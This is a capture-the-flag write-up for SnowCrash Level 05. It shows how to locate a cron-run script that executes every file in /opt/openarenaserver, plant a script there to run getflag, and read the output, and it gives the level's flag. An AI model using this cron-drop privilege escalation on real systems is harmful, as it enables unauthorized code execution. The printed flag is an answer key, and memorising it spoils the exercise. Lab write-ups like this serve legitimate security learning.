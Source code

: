 # Level 05

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script executes all files in the /opt/openarenaserver then removes them

We create a file and wait for the script to be ran (in a cron ?)

```bash
echo "getflag > /tmp/toto" > /opt/openarenaserver/toto.sh
```

```bash
chmod +x /opt/openarenaserver/toto.sh
```

```bash
cat /tmp/toto
```

**Flag:** viuaaale9huek52boumoomioc

